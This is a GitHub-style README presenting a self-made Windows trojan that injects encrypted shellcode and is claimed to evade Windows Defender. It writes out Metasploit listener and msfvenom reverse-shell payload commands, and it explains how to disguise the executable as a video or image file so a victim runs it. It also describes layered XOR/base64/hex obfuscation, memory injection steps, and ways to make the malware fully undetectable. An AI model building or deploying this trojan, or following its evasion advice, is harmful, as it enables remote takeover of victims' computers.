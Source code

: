 # Encrypted Trojan with Process Hollowing (Undetected)
Encrypted malware using process hollowing, it creates a shell injecting shellcode which is encrypted using xor, base64 and hexadecimal encoding. Undetected by Windows defender as of 2025.

# 💻 Code
Simple shellcode execution technique in which the payload is decrypted, copied into memory, and executed in the same process without writing it into disk. Similar to my other trojan, [Self injection](https://github.com/Hue-Jhan/Encrypted-Trojan-Undetected), but slightly different.

### Listener and payload:
First, on the attacker's machine i used the classic multi handler exploit to run the payload: 
``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

The payload is a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its easy to detect:
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

You can embed the code into pretty much anything, you can even use tools to mask the exe file into a mp4 or jpg file, complete with a new icon and a name, even the extension can be masked. Once the victim runs the exe, a new session will pop up on metasploit, where you can create a shell and work towards privilege escalation.

###  Encrypter:

The encryptor takes the shellcode (which in the code i uploaded is just a windows message box that says xd lol) and obfuscates it using 3 layers of encryption:
- First we encode binary data into a Base64 representation, use a custom base64_chars set instead of the standard Base64 alphabet to add obfuscation;
- Secondly we apply XOR encryption on the string using a single-byte key, XOR encryption is symmetric so it can be decrypted by applying the same key;
- Then we convert it into its hexadecimal string representation and we get the final encrypted shellcode.

###  Injector:

The actual injection process works like this:
- First we decode the shellcode by doing the opposite of what we did in the encrypter code, make sure to use the same xor key;
- Secondly we allocate the memory, write shellcode to the allocated memory, and make it readable, writable, and executable, allowing the shellcode to run.
- Then we copy the shellcode into the newly allocated memory and we make sure that the allocated memory has the correct permissions to execute the shellcode;
- It creates a new thread at the address of ```allocated_mem```, which contains and executes the shellcode as if it were a normal function.

Finally we wait for the created thread to finish executing before freeing the memory and the buffers.

# 🛡 AV Detection

<img align="right" src="media/hsav1.png" width="430" />

Just like my previous trojans, it's currently undetected by windows defender, but it's easily blocked by Bitdefender, even the free trial.
Again Virus Total says that bitdefender won't classify the exe file as malicious, while Microsoft recognizes the malware.... it should be the exact opposite but idk.
You can still make it fully undetectable by using other encrypting softwares like Soggoth or Supernova or idk, but at that point just use a much more known rat like xworm.
